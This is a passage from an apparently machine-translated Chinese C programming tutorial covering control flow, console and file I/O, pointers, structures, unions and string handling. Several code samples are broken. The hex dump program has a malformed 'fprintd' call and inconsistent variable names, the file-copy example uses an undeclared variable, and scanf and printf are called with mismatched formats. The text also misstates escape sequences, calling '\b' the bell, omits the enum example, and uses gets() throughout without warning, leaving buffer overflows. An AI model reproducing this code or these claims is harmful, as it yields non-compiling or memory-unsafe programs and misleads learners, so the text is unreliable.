 case 2 : printf ("\nx equals two");
 break;
 case 3 : printf ("\nx equals three");
 break;
 default : printf ("\nx is larger than three");
 }
}
```

Switch 语句可以嵌套使用。

### 迭代语句

C 语言提供了三种循环，即迭代语句：*for、while 和 do-while*。for 循环的一般形式为：

```c
for(initialization;condition;increment)
```

它对于计数器非常有用，例如下面显示整个 ASCII 字符集的例子：

```c
#include <stdio.h>

main()
{
int x;

for(x = 32; x < 128; x++)
printf ("%d\t%c\t", x, x);
}
```

无限 for 循环也是有效的：

```c
for(;;)
{
statements
}
```

此外，C 允许空语句。下面的 for 循环从字符串中删除前导空格：

```c
for(; *str == ' '; str++)
;
```

注意这里缺少初始化语句，以及循环后面的空语句。

while 循环比 for 循环稍简单；其一般形式为：

```c
while (condition)
    statements
```

条件后面的语句或大括号中的语句将被执行，直到条件为 FALSE。如果在循环开始前条件即为 FALSE，则循环语句不会被执行。而 do-while 循环则至少会执行一次。其一般形式为：

```c
do
{
    statements
}
while (condition);
```

### 跳转语句

return 语句用于从函数返回到调用函数。取决于函数声明的返回数据类型，它可能返回也可能不返回值：

```c
int MULT(int x, int y)
{
    return(x * y);
}
```

或

```c
void FUNCA()
{
    printf("\nHello World");
    return;
}
```

break 语句用于跳出循环或 switch 语句。在循环中，它可以用于提前终止循环，如下所示：

```c
#include <stdio.h>

main()
{
    int x;

    for(x = 0; x < 256; x++)
    {
        if (x == 100)
            break;

        printf("%d\t",x);
    }
}
```

与 break 相对的是 continue，它强制执行循环的下一次迭代，实际上是将程序控制强制返回到循环语句处。C 语言提供用于终止的函数


过早地使用 exit( ) 终止程序。Exit( ) 可以与返回值一起使用，将值传回给调用程序：

```
exit(return_value);
```

### 继续

continue 关键字强制控制流跳转到最内层循环（while、do、…、while( )）的测试语句处。这在优雅地终止循环时很有用，如下面的程序从文件中读取字符串，直到没有更多数据为止：

```
#include <stdio.h>

void main()
{
FILE *fp;
char *p;
char buff[100];

fp = fopen("data.txt", "r");
if (fp == NULL)
{
fprintf(stderr, "Unable to open file data.txt");
exit(0);
}

do
{
p = fgets(buff, 100, fp);
if (p == NULL)
/* Force exit from loop */
continue;
puts(p);
}while(p);
}
```

请记住，对于 for( ) 循环，程序将继续将控制权传递回第三个参数。

### 输入和输出

### 输入

C 程序的输入可能来自控制台、标准输入设备（除非重定向了）、文件 or 数据端口。从标准输入流 stdin 读取数据的一般输入命令是 scanf( )。Scanf( ) 逐个字符扫描一系列输入字段。然后，根据传递给 scanf( ) 函数作为参数的适当格式说明符对每个字段进行格式化。然后，该字段被存储在传递给 scanf( ) 的地址中，位于格式说明符列表之后。例如，以下程序将从流 stdin 中读取一个整数：

```
main()
{
int x;
scanf("%d", &x);
}
```

注意 scanf( ) 参数列表中的变量名 **x** 前面的地址运算符和前缀。之所以这样做是因为 scanf( ) 将值存储在地址中，而不是直接赋值给变量。格式字符串是一个字符字符串，可能包含三种类型的数据：空白字符（空格、制表符和换行符）、非空白字符（除了百分号-%以外的所有 ASCII 字符）和*格式说明符*。格式说明符的一般形式为：

```
%[*][width][h|l|L]type_character
```

这是一个使用 scanf( ) 的示例：

```
#include <stdio.h>

main()
{
  char name[30];
  int age;

  printf ("\nEnter your name and age ");
  scanf("%30s%d",name,&age);
  printf ("\n%s %d",name,age);
}
```

注意包含行 #include <stdio.h>：这告诉编译器也要读取文件 stdio.h，该文件包含 scanf( ) 和 printf( ) 的函数原型。如果您输入并运行此示例程序，您将看到只能输入一个名称。

另一种输入函数是 gets( )，它从流 stdin 读取一串字符，直到检测到换行符为止。换行字符在目标字符串中被替换为 null（0 字节）。此函数的优点是可以允许读取空白。下面的程序是对前面程序的修改，使用 gets( ) 代替 scanf( )：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

main()
{
  char data[80];
  char *p;
  char name[30];
  int age;

  printf ("\nEnter your name and age ");
  /* Read in a string of data */
  gets(data);

  /* P is a pointer to the last character in the input string */
  p = &data[strlen(data) - 1];

  /* Remove any trailing spaces by replacing them with null bytes */
  while(*p == ' '){
    *p = 0;
    p--;
  }

  /* Locate last space in the string */
  p = strrchr(data, ' ');

  /* Read age from string and convert to an integer */
  age = atoi(p);

  /* Terminate data string at start of age field */
  *p = 0;

  /* Copy data string to name variable */
  strcpy(name, data);

  /* Display results */
  printf ("\nName is %s age is %d", name, age);
}
```

### 输出

最常见的输出函数是 printf( )。Printf( ) 与 scanf( ) 非常相似，只是它将格式化数据写入标准输出流 stdout。Printf( ) 接受一个输出数据字段列表，对每个字段应用格式说明符，并输出结果。格式说明符与 scanf( ) 相同，但可以增加标志。这些标志包括：

- 左对齐输出，右侧用空格填充。
- 使数字前加上其符号。

对于 printf( )，宽度说明符也略有不同：其最有用的形式是精度说明符：

```
width.precision
```

因此，要将浮点数打印到小数点后三位，你会使用：

```
printf ("%.3f", x);
```

以下可能出现在 printf( ) 参数列表中的特殊字符常量：

- `\n` 换行
- `\r` 回车
- `\t` 制表符
- `\b` 响铃
- `\f` 换页
- `\v` 垂直制表符
- `\\` 反斜杠字符
- `\'` 单引号
- `\"` 双引号
- `\?` 问号
- `\O` 八进制字符串
- `x` 十六进制字符串

以下程序展示了如何将十进制整数显示为十进制、十六进制或八进制整数。printf( ) 格式中百分号 (%) 后面的 04 告诉编译器将显示的数字填充到至少四位宽：

```
/* A simple decimal to hexadecimal and octal conversion program */
#include <stdio.h>

main()
{
    int x;
    do
    {
        printf("\nEnter a number, or 0 to end ");
        scanf("%c", &x);
        printf("%04d %04X %04o", x, x, x);
    } while (x != 0);
}
```

与 printf( ) 相关的函数包括 fprintf()，其原型为：

```
fprintf(FILE *fp, char *format[, argument, ...]);
```

这种 printf( ) 的变化形式只是将格式化输出发送到指定的文件流。

另一个相关函数是 sprintf( )；其原型如下：

```
sprintf(char *s, char *format[, argument, ...]);
```

向流 stdout 输出简单字符串的 printf( ) 替代方案是 puts( )。此函数将字符串发送到流 stdout，后跟一个换行字符。它比 printf( ) 更快，但灵活性远不如它。

### 直接控制台 I/O

可以使用直接控制台 I/O 函数将数据发送到控制台（键盘和屏幕）并从中读取。这些函数以字母 c 开头；因此，printf( ) 的直接控制台 I/O 等效项是 crintf( )，puts( ) 的等效项是 cputs( )。直接控制台 I/O 函数与标准 I/O 函数的区别在于：

- 它们不使用预定义流，因此无法重定向。
- 它们不具有跨操作系统的可移植性（例如，你不能在 Windows 程序中使用直接控制台 I/O 函数）。
- 它们比其标准 I/O 等效项更快。
- 它们可能无法在所有视频模式下工作（特别是 VESA 显示模式）。

### 指针

指针是保存数据项内存地址的变量。指针像普通变量一样声明，但其名称前有一个星号（*），如下所示：

```
char  *p;
```

此示例将变量 p 声明为指向字符变量的指针。

指针非常强大，同样也危险，因为指针可能被意外设置为指向程序的代码段，然后可以将某些值分配给指针的地址。下面的程序说明了一个简单的指针应用：

```
#include <stdio.h>

main()
{
   int a;
   int *x;

   /* x is a pointer to an integer data type */

   a = 100;
   x = &a;

   printf ("\nVariable 'a' holds the value %d at memory address %p", a,*x);
}
```

指针可以递增、递减，并且也可以对其应用其他数学运算。指针常用于动态内存分配。当程序运行时，通常需要在内存中临时分配一块数据。C 为此提供了函数 malloc()；它遵循一般形式：

```
any pointer type = malloc(number_of_bytes);
```

这里，malloc() 实际上返回一个 void 指针类型，这意味着它可以是任何类型——整数、字符、浮点等。此示例在内存中为 1,000 个整数分配了一个表：

```
#include <stdio.h>
#include <stdlib.h>

main()
{
   int *x;
   int n;

   /* x is a pointer to an integer data type */

   /* Create a 1000 element table, sizeof() returns the compiler */
   /* specific number of bytes used to store an integer */

   x = malloc(1000 * sizeof(int));
```


/* 检查内存分配是否成功 */
if (x == NULL)
{
   printf("\n无法分配一个包含1000个整数的数组");
   exit(0);
}

/* 为数组中的每个元素赋值 */
for(n = 0; n < 1000; n++)
{
   *x = n;
   x++;
}

/* 将 x 移回数组的起始位置 */
x -= 1000;

/* 显示数组中的值 */
for(n = 0; n < 1000; n++){ 
   printf("\n元素 %d 的值为 %d",n,*x);
   x++;
}

/* 既然不再需要，释放这块内存 */
free(x);
}

指针也常用于字符数组，即字符串。由于所有 C 语言程序的字符串都以零字节结尾，我们可以使用指针来统计字符串中的字符数：

```c
#include <stdio.h>
#include <string.h>

main()
{
   char *p;
   char text[100];
   int len;

   /* 用一些文本初始化变量 'text' */
   strcpy(text,"This is a string of data");

   /* 将变量 p 设置为变量 text 的起始位置 */
   p = text;

   /* 将变量 len 初始化为零 */
   len = 0;

   /* 统计变量 text 中的字符数 */
   while(*p)
   {
      len++;
      p++;
   }

   /* 显示结果 */
   printf("\nThe string of data has %d characters in it",len);
}
```

为了寻址 1MB 的内存，由 *偏移量* 和 64KB *段* 组成的 20 位数字构成了地址。IBM PC 使用称为 *段寄存器* 的特殊寄存器来记录地址的段。这向 C 语言引入了三个新关键字：*near*、*far* 和 *huge*。

- *Near 指针* 宽度为 16 位，仅访问当前段内的数据。
- *Far 指针* 由偏移量和段地址组成，可以访问内存中任何位置的数据。
- *Huge 指针* 是 far 指针的一种变体，可以通过整个 1 MB 范围成功地进行递增和递减（因为编译器生成了修正偏移量的代码）。

不出所料，使用 near 指针的代码比使用 far 指针的代码执行速度更快，而使用 far 指针的代码又比使用 huge 指针的代码更快。为了向 far 指针提供字面量地址，C 编译器提供了一个宏 **MK_FP()**，其原型为：

```c
void far *MK_FP(unsigned segment, unsigned offset);
```

## 结构体

C 语言提供了一种将变量归组到一个名称下的方法，从而提供了一种方便的手段，可以将相关信息保持在一起并形成一种结构化的数据处理方式。结构体定义的一般形式如下：

```c
typedef struct
{
  变量类型 变量名;
  变量类型 变量名;
}
结构体名称;
```

在处理具有固定记录结构的数据文件时，使用结构体变量是至关重要的。以下示例展示了一个非常简单的姓名和地址文件的记录结构。它声明了一个名为 data 的数据结构，由六个字段组成：*姓名、地址、城镇、郡、邮编* 和 *电话*：

```c
typedef struct
{
  char name[30];
  char address[30];
  char town[30];
  char county[30];
  char post[12];
  char telephone[15];
}
data;
```

结构体变量的各个字段通过以下一般格式进行访问：

```
结构体变量.字段名;
```

构成结构体的字段数量没有限制，且字段不必是相同类型；例如：

```c
typedef struct
{
    char name[30];
    int age;
    char *notes;
}
dp;
```

这个示例声明了一个结构体 dp，它由一个字符数组字段、一个整数字段和一个字符指针字段组成。结构体变量可以作为参数传递，通过将变量的地址作为参数使用取地址运算符（&）来传递。下面是一个使用结构体来提供对简单姓名和地址文件中数据进行基本访问的示例程序：

```c
#include <stdio.h>
#include <stdlib.h>
#include <io.h>
#include <string.h>
#include <fcntl.h>
#include <sys/stat.h>

/* num_lines 是屏幕显示的行数 */
#define num_lines  25

typedef struct
{
    char name[30];
    char address[30];
    char town[30];
    char county[30];
    char post[12];
    char telephone[15];
}
data;

data record;
int handle;

/* 函数原型 */

void ADD_REC(void);
void CLS(void);
void DISPDATA(void);
void FATAL(char *);
void GETDATA(void);
void MENU(void);
void OPENDATA(void);
int SEARCH(void);

void CLS()
{
int n;

for (n = 0; n < num_lines; n++)
puts(" ");
}

void FATAL(char *error)
{
printf("\nFATAL ERROR: %s", error);
exit(0);
}

void OPENDATA()
{
/* 检查数据文件是否存在，如果不存在则创建它 */
/* 否则，以读/写方式打开它并在文件末尾进行 */
handle = open("address.dat", O_RDWR | O_APPEND, S_IWRITE);

if (handle == -1)
{
handle = open("address.dat", O_RDWR | O_CREAT, S_IWRITE);
if (handle == -1)
FATAL("Unable to create data file");
}
}

void GETDATA()
{
/* 从操作员获取地址数据 */

CLS();

printf("Name ");
gets(record.name);
printf("\nAddress ");
gets(record.address);
printf("\nTown ");
gets(record.town);
printf("\nCounty ");
gets(record.county);
printf("\nPost Code ");
gets(record.post);
printf("\nTelephone ");
gets(record.telephone);
}

void DISPDATA()
{
/* 显示地址数据 */
char text[5];

CLS();

printf("Name %s",record.name);
printf("\nAddress %s",record.address);
printf("\nTown %s",record.town);
printf("\nCounty %s",record.county);
printf("\nPost Code %s",record.post);
printf("\nTelephone %s\n\n",record.telephone);

puts("Press RETURN to continue");
gets(text);
}

void ADD_REC()
{
/* 将新记录插入或附加到数据文件中 */
int result;

result = write(handle,&record,sizeof(data));

if (result == -1)
FATAL("Unable to write to data file");
}

int SEARCH()
{
char text[100];
int result;

printf("Enter data to search for ");
gets(text);
if (*text == 0)
return(-1);

/* 定位到文件开头 */
lseek(handle,0,SEEK_SET);

do
{
/* 将记录读入内存 */
result = read(handle,&record,sizeof(data));
if (result > 0)
{
/* 扫描记录以查找匹配的数据 */
if (strstr(record.name,text) != NULL)
return(1);
if (strstr(record.address,text) != NULL)
return(1);
if (strstr(record.town,text) != NULL)
return(1);
if (strstr(record.county,text) != NULL)
return(1);
if (strstr(record.post,text) != NULL)
return(1);
if (strstr(record.telephone,text) != NULL)
return(1);
}
}
while(result > 0);
return(0);
}

void MENU()
{
 int option;
 char text[10];

do
{
 CLS();
puts("\n\t\t\tSelect Option");
puts("\n\n\t\t\t1 Add new record");
puts("\n\n\t\t\t2 Search for data");
puts("\n\n\t\t\t3 Exit");
puts("\n\n\n\n");
gets(text);
option = atoi(text);

 switch(option)
{
 case 1 : GETDATA();
/* 定位到文件末尾以附加新记录 */
 lseek(handle,0,SEEK_END);
 ADD_REC();
 break;

 case 2 : if (SEARCH())
 DISPDATA();
 else
 {
 puts("NOT FOUND!");
 puts("Press RETURN to continue");
 gets(text);
 }
 break;

 case 3 : break;
 }
 while(option != 3);
}

void main()
{
 CLS();
 OPENDATA();
 MENU();
}
```

## 位字段

C 语言允许在结构体中包含小于 8 位的变量。这些变量被称为 *位字段*，可以是任何从 1 位开始声明的大小。声明位字段的一般形式如下：

```
类型 名称 : 位数;
```

例如，要声明一组状态标志，每个占据 1 位：

```c
typedef struct
{
    unsigned carry : 1;
    unsigned zero  : 1;
    unsigned over  : 1;
    unsigned parity : 1;
}
df;

df flags;
```

那么，变量 *flags* 在内存中仅占据 4 位，但它由四个变量组成，可以像其他结构体字段一样进行访问。

## 联合体

C 语言为高效利用可用内存提供的另一个设施是 *联合体* 结构，这是一组共享相同内存存储地址的变量。因此，在给定时间只能访问其中一个变量。联合体定义的一般形式如下：

```c
union 名称
{
    类型 变量名;
    类型 变量名;
    .
    .
    .
    类型 变量名;
} ;
```

## 枚举

枚举将递增的整数值分配给符号列表。枚举声明采用以下形式：

```
enum 名称 { 枚举列表 } 变量列表;
```

要定义一个颜色符号列表，可以使用：


## 文件 I/O

C 语言提供带缓冲的文件流用于文件访问。某些 C 平台（如 UNIX 和 DOS）也提供不带缓冲的文件句柄。

### 带缓冲流

带缓冲流通过类型为文件指针的变量进行访问。数据类型 `FILE` 定义在头文件 `stdio.h` 中。因此，要声明一个文件指针，应使用：

```c
#include <stdio.h>
FILE *ptr;
```

为了打开一个流，C 语言提供了函数 `fopen()`，该函数接受两个参数：要打开的文件名以及打开文件时使用的访问模式。访问模式可以是以下任一值：

| 模式 | 描述 |
| :--- | :--- |
| r | 以读模式打开。 |
| w | 以写模式创建，销毁任何现有文件。 |
| a | 以追加模式打开；如果文件不存在则创建新文件。 |
| r+ | 以读写模式打开现有文件。 |
| w+ | 以读写模式创建；销毁任何现有文件。 |
| a+ | 以追加模式打开；如果文件不存在则创建新文件。 |

可选地，可以追加 `b` 或 `t` 分别表示二进制或文本模式。如果未追加任何字符，文件流将按照全局变量 `_fmode` 描述的模式打开。从以文本模式打开的文件流中读取或写入的数据将经过转换；也就是说，写入时 CR 和 LF 字符将被转换为 CR LF 对，读取时 CR LF 对被转换为单个 LF。以二进制模式打开的文件流不经过转换。

如果 `fopen()` 未能打开文件，它会向文件指针返回值 `NULL`（定义在 `stdio.h` 中）。因此，以下程序将创建一个名为 `data.txt` 的新文件，并以读写模式打开它：

```c
#include <stdio.h>

void main()
{
    FILE *fp;

    fp = fopen("data.txt", "w+");
}
```

为了关闭一个流，C 语言提供了函数 `fclose()`，它接受流的文件指针作为参数：

```c
fclose(fp);
```

如果在关闭文件流过程中发生错误，`fclose()` 返回非零值。有四个基本函数用于向流发送和从流接收数据：`fgetc()`、`fputc()`、`fgets()` 和 `fputs()`。`fgetc()` 函数简单地从指定的输入流中读取单个字符：

```c
char fgetc(FILE *fp);
```

它的相反操作是 `fputc()`，它简单地向指定的输出流写入单个字符：

```c
char fputc(char c, FILE *fp);
```

`fgets()` 函数从输入流中读取字符串：

```c
char *fgets(char *s, int numbytes, FILE *fp);
```

当读取了 `numbytes-1` 个字节或读取到换行符时，它停止读取。会在读取的字符串 `s` 末尾追加一个空终止字节。如果发生错误，`fgets()` 返回 `NULL`。

`fputs()` 函数向流写入一个空终止字符串：

```c
int fputs(char *s, FILE *fp);
```

除了 `fgets()`（如果发生错误返回 NULL 指针）外，所有其他描述的函数如果在操作期间发生错误，都会返回 `EOF`（定义在 `stdio.h` 中）。以下程序创建文件 `data.dat` 的副本作为 `data.old`，并展示了 `fopen()`、`fgetc()`、`fputc()` 和 `fclose()` 的使用：

```c
#include <stdio.h>

int main()
{
    FILE *in;
    FILE *out;

    in = fopen("data.dat", "r");

    if (in == NULL)
        return 1;

    out = fopen("data.old", "w");

    if (out == NULL)
        return 2;

    while ((ch = fgetc(in)) != EOF)
        fputc(ch, out);

    fclose(in);
    fclose(out);
    return 0;
}
```

### 随机文件访问

`fseek()` 函数允许你将文件指针移动到文件中的任意位置。它主要与二进制文件一起使用。其原型为：

```c
int fseek(FILE *fp, long numbytes, int fromwhere);
```

这里，`fseek()` 重新定位由之前调用 `fopen()` 打开的流关联的文件指针。文件指针被定位在距 `fromwhere` 位置 `numbytes` 的地方，`fromwhere` 可以是文件开头、当前文件指针位置或文件末尾，分别由常量 `SEEK_SET`、`SEEK_CUR` 和 `SEEK_END` 表示。如果 `fseek()` 调用成功，返回值为 0。`ftell()` 函数与 `fseek()` 相关联，它报告流的当前文件指针位置，具有以下函数原型：

```c
long int ftell(FILE *fp);
```

`ftell()` 函数返回文件指针的位置（以距文件起始处的字节数衡量），如果发生错误则返回 -1。

### 句柄

文件句柄使用 `open()` 函数打开，其原型为：

```c
int open(char *filename, int access[, unsigned mode]);
```

如果 `open()` 成功，则返回文件句柄编号；否则，`open()` 返回 -1。`access` 整数由在 `fcntl.h` 中声明的符号常量进行按位或操作组成。这些常量因编译器而异，可能包括：

- **O_APPEND**
  如果设置，每次写入前文件指针将设置为文件末尾。
- **O_CREAT**
  如果文件不存在，则创建该文件。
- **O_TRUNC**
  将现有文件截断为 0 字节长度。
- **O_EXCL**
  与 O_CREAT 配合使用。
- **O_BINARY**
  以二进制模式打开文件。
- **O_TEXT**
  以文本模式打开文件。

一旦使用 `open()` 分配了文件句柄，就可以使用 `read()` 和 `write()` 访问文件。`Read()` 具有函数原型：

```c
int read(int handle, void *buf, unsigned num_bytes);
```

它尝试读取 `num_bytes`，并返回从文件句柄 `handle` 实际读取的字节数，并将这些字节存储到 `buf` 指向的内存块中。`Write()` 与 `read()` 非常相似，具有相同的函数原型和返回值，但从 `buf` 指向的内存块写入 `num_bytes`。使用 `open()` 打开的文件使用 `close()` 关闭，其使用函数原型：

```c
int close(int handle);
```

`close()` 函数在成功时返回 0，如果在尝试过程中发生错误则返回 -1。

随机访问由 `lseek()` 提供，它非常类似于 `fseek()`，除了它接受整数文件句柄作为第一个参数，而不是流 `FILE` 指针。此示例使用文件句柄从 stdin（通常是键盘）读取数据，并将文本复制到一个名为 data.txt 的新文件中：

```c
#include <io.h>
#include <fcntl.h>
#include <sys\stat.h>

int main()
{
    int handle;
    char text[100];

    handle = open("data.txt", _O_RDWR | _O_CREAT | _O_TRUNC, S_IWRITE);

    do
    {
        gets(text);
        write(handle, &text, strlen(text));
    }
    while (*text);

    close(handle);
}
```

### 高级文件 I/O

C 的 ANSI 标准通过文件流定义文件 I/O，并定义各种文件访问函数。`fopen()` 函数具有原型：

```c
FILE *fopen(const char *name, const char *mode);
```

这里，`fopen()` 尝试以指定模式打开到文件名的流。如果成功，返回指向文件流的 `FILE` 类型指针。如果调用失败，返回 `NULL`。模式字符串可以是以下之一：

- **R**：仅以读模式打开。
- **W**：创建用于写入；覆盖同名现有文件。
- **A**：以追加模式（在文件末尾写入）打开，或如果文件不存在则创建该文件。
- **r+**：以读写模式打开现有文件。
- **w+**：创建新文件用于读写。
- **a+**：以追加模式打开，具有读写访问权限。

`fclose()` 函数用于关闭之前由调用 `fopen()` 打开的文件流，其原型为：

```c
int fclose(FILE *fp);
```

当 `fclose()` 调用成功时，该流的所有缓冲区都会被刷新，并返回值为 0。如果调用失败，`fclose()` 返回 `EOF`。


许多宿主计算机使用带缓冲的文件访问；也就是说，当写入文件流时，数据会先存储在内存中，只有当数据量超过预定义的字节数时，才会写入流。如果在数据写入流之前发生断电，将导致数据丢失，因此可以调用函数 `fflush()` 强制将所有待写数据写入流中；`fflush()` 的原型如下：

```c
int fflush(FILE *fp);
```

当对 `fflush()` 的调用成功时，与流关联的缓冲区会被刷新，并返回值为 0。如果失败，`fflush()` 返回 `EOF`。可以通过函数 `ftell()` 确定与流关联的文件指针位置，其原型如下：

```c
long int ftell(FILE *fp);
```

这里，`ftell()` 返回文件指针相对于文件起始位置的字节偏移量，如果调用失败则返回 -1L。类似地，你可以使用 `fseek()` 将文件指针移动到新的位置，其原型如下：

```c
int fseek(FILE *fp, long offset, int from_what_place);
```

`fseek()` 函数尝试将文件指针 `fp` 从预定义的位置 “from_what_place” 移动 `offset` 个字节，该位置预定义为以下之一：

- **SEEK_SET**：文件开头
- **SEEK_CUR**：文件指针当前位置
- **SEEK_END**：文件末尾

偏移量可以是正值，用于向前移动文件指针通过文件；也可以是负值，用于向后移动。为了快速将文件指针移回文件开头，并清除已发生错误的引用，C 提供了函数 `rewind()`，其原型如下：

```c
void rewind(FILE *fp);
```

在此，`rewind(fp)` 类似于 `fseek(fp, 0L, SEEK_SET)`，因为它们都将文件指针设置为文件开头，但 `fseek()` 清除 EOF 错误标记，而 `rewind()` 清除所有错误指示器。文件函数发生的错误可以通过函数 `ferror()` 进行检查：

```c
int ferror(FILE *fp);
```

如果在指定的流上发生错误，`ferror()` 函数返回非零值。在检查 `ferror()` 并报告任何错误后，你应该清除错误指示器；这可以通过调用 `clearerr()` 来实现，其原型如下：

```c
void clearerr(FILE *fp);
```

可以通过预定义宏 `feof()` 来测试是否到达文件末尾（EOF），其原型如下：

```c
int feof(FILE *fp);
```

如果在指定的文件流上检测到文件末尾错误指示器，`feof()` 宏返回非零值；如果尚未到达文件末尾，则返回零。

可以使用几种函数从文件流中读取数据。单个字符可以使用 `fgetc()` 读取，其原型如下：

```c
int fgetc(FILE *fp);
```

这里，`fgetc()` 返回读取到的字符（转换为整数），或者在发生错误时返回 `EOF`。使用 `fgets()` 读取数据字符串，它尝试读取一个以换行符结尾的字符串；其原型如下：

```c
char *fgets(char *s, int n, FILE *fp);
```

成功调用 `fgets()` 后，字符串将存储在 `s` 中，该字符串要么以换行符结尾，要么长度为 `n-1` 个字符。`fgets()` 保留换行符，并在字符串末尾追加一个空字节。如果调用失败，则返回 `NULL` 指针。可以使用 `fputs()` 将字符串写入流中，其原型如下：

```c
int fputs(const char *s, FILE *fp);
```

`fputs()` 函数将字符串 `s` 中除空终止字节外的所有字符写入流 `fp`。成功时，`fputs()` 返回最后写入的字符；失败时，返回 `EOF`。要向流中写入单个字符，请使用 `fputc()`，其原型如下：

```c
int fputc(int c, FILE *fp);
```

如果此过程成功，`fputc()` 返回写入的字符；否则，返回 `EOF`。

要从流中读取大块数据或记录，可以使用 `fread()`，其原型如下：

```c
size_t fread(void *ptr, size_t size, size_t n, FILE *fp);
```

`fread()` 函数尝试从文件流 `fp` 中读取 `n` 个项目，每个长度为 `size`，并将其存入由 `ptr` 指向的内存块中。要检查 `fread()` 的成功或失败状态，请使用 `ferror()`。

`fread()` 的姊妹函数是 `fwrite()`；其原型如下：

```c
size_t fwrite(const void *ptr, size_t size, size_t n, FILE *fp);
```

此函数将 `n` 个项目（每个长度为 `size`）从由 `ptr` 指向的内存区域写入指定的流 `fp`。

通过 `fscanf()` 实现从流中的格式化输入；其原型如下：

```c
int fscanf(FILE *fp, const char *format, [address ... ]);
```

`fscanf()` 函数返回成功存储的字段数量，并在文件末尾时返回 `EOF`。这个简短的示例展示了 `fscanf()` 对于从流中读取数字非常有用：

```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    FILE *fp;
    int a, b, c, d, e;
    char text[100];

    fp = fopen("data.txt", "w+");

    if (!fp)
    {
        perror("Unable to create file");
        exit(0);
    }

    fprintf(fp, "1 2 3 4 5 \"A line of numbers\n");

    fflush(fp);

    if (ferror(fp))
    {
        fputs("Error flushing stream", stderr);
        exit(1);
    }

    rewind(fp);
    if (ferror(fp))
    {
        fputs("Error rewind stream", stderr);
        exit(1);
    }

    fscanf(fp, "%d %d %d %d %d %s", &a, &b, &c, &d, &e, text);
    if (ferror(fp))
    {
        fputs("Error reading from stream", stderr);
        exit(1);
    }

    printf("\nfscanf() returned %d %d %d %d %d %s", a, b, c, d, e, text);
}
```

正如示例所示，`fprintf()` 可用于将格式化数据写入流。如果你希望保存流上文件指针的位置，然后再将其恢复为相同的位置，你可以使用函数 `fgetpos()` 和 `fsetpos()`：`fgetpos()` 读取文件指针的当前位置，其原型如下：

```c
int fgetpos(FILE *fp, fpos_t *pos);
```

`fsetpos()` 函数重新定位文件指针，其原型如下：

```c
int fsetpos(FILE *fp, const fpos_t *fpos);
```

这里，`fpos_t` 定义在 `stdio.h` 中。这些函数比先执行 `lseek()` 再执行 `fseek()` 更方便。

可以使用函数 `freopen()` 为一个打开的流关联一个新文件，以替代现有文件，其原型如下：

```c
FILE *freopen(const char *name, const char *mode, FILE *fp);
```

`freopen()` 函数关闭现有流，然后尝试使用指定的文件名重新打开它。这对于将预定义流 `stdin`、`stdout` 和 `stderr` 重定向到文件或设备非常有用。例如，如果你希望将所有原本打算输出到 `stdout`（通常是宿主计算机的显示设备）的输出重定向到打印机，你可能会使用：

```c
freopen("LPT1", "w", stdout);
```

## 预定义 I/O 流

有三个预定义的 I/O 流：`stdin`、`stdout` 和 `stderr`。流 `stdin` 和 `stdout` 默认分别指向键盘和显示屏，但在某些硬件平台上（如 PC 和 UNIX 系统下）可以被重定向。流 `stderr` 默认指向显示屏，通常不会被操作员重定向。即使在程序输出被重定向时，也可以用它来显示错误消息：

```c
fputs("Error message", stderr);
```

函数 `printf()` 和 `puts()` 将数据转发到流 `stdout`，因此可以被程序操作员重定向；`scanf()` 和 `gets()` 从流 `stdin` 接受输入。

作为 PC 文件 I/O 的一个例子，考虑以下简短程序，它将对指定文件的十六进制转储输出到预定义流 `stdout`，该流可以通过以下方式重定向到文件：

```shell
dump filename.ext > target.ext
```

```c
#include <stdio.h>
#include <fcntl.h>
#include <io.h>
#include <string.h>

main(int argc, char *argv[])
{
    unsigned counter;
    unsigned char v1[20];
    int f1;
    int x;
    int n;

    if (argc != 2)
    {
        fputs("\nERROR: Syntax is dump f1\n", stderr);
        return(1);
    }

    f1 = open(argv[1], O_RDONLY);

    if (f1 == -1)
    {
```


fprintd stderr, "ERROR: Unable to open %s\n", argv[1]);
    return(1);
}

fprintf(stdout, "DUMP OF FILE %s\n", strupr(argv[1]));

counter = 0;

while(1)
{
    /* Set buffer to zero bytes */
    memset(vl, 0, 20);

    /* Read buffer from file */
    x = __read(fl, &vl, 16);

    /* x will be 0 on EOF or -1 on error */
    if (x < 1)
        break;

    /* Print file offset to stdout */
    fprintf(stdout, "%06d(%05x) ", counter, counter);

    counter += 16;

    /* print hex values of buffer to stdout */
    for(n = 0; n < 16; n++)
        fprintf(stdout, "%02x ", vl[n]);

    /* Print ascii values of buffer to stdout */
    for(n = 0; n < 16; n++)
    {
        if ((vl[n] > 31) && (vl[n] < 128))
            fprintf(stdout, "%c", vl[n]);
        else
            fputs(".", stdout);
    }

    /* Finish the line with a new line */
    fputs("\n", stdout);
}

/* successful termination */
return(0);
}

## 字符串

C 语言拥有通用计算机语言中最强大的字符串处理能力之一。字符串是一个由零字节（null byte）终止的一维字符数组。字符串可以通过两种方式进行初始化：一是在源代码中直接赋值常亮值，例如：

```c
int main() {
    char *p = "System 5";
    char name[] = "Test Program";
}
```

或者在运行时通过 `strcpy()` 函数进行初始化，其函数原型为：

```c
char *strcpy(char *destination, char *source);
```

`strcpy()` 函数将源字符串复制到目标位置，如下例所示：

```c
#include <stdio.h>

int main()
{
    char name[50];

    strcpy(name, "Servile Software");

    printf("\nName equals %s", name);
}
```

C 语言还允许直接访问字符串中的每一个字节：

```c
#include <stdio.h>

int main()
{
    char name[50];

    strcpy(name, "Servile Software");

    printf("\nName equals %s", name);

    /* Replace first byte with lower case 's' */
    name[0] = 's';

    printf("\nName equals %s", name);
}
```

某些 C 编译器包含用于将字符串转换为大写和小写的函数，但这些函数并未在 ANSI 标准中定义。然而，ANSI 标准确实定义了 `toupper()` 和 `tolower()` 函数，它们分别将整数参数转换为大写和小写。通过利用这些函数，你可以创建符合 ANSI 标准的自定义版本：

```c
#include <stdio.h>

void strupr(char *source)
{
    char *p;

    p = source;
    while (*p)
    {
        *p = toupper(*p);
        p++;
    }
}

void strlwr(char *source)
{
    char *p;

    p = source;
    while (*p)
    {
        *p = tolower(*p);
        p++;
    }
}

int main()
{
    char name[50];

    strcpy(name, "Servile Software");
    printf("\nName equals %s", name);

    strupr(name);

    printf("\nName equals %s", name);

    strlwr(name);

    printf("\nName equals %s", name);
}
```

与其他计算机语言不同，C 语言没有规定字符串的最大长度限制。不过，某些 CPU 对内存块的最大尺寸有特定限制。以下是一个示例程序，用于反转字符串中所有字符的顺序：

```c
#include <stdio.h>
#include <string.h>

char *strrev(char *s)
{
    /* Reverses the order of all characters in a string except the null */
    /* terminating byte */

    char *start;
    char *end;
    char tmp;

    /* Set pointer 'end' to last character in string */
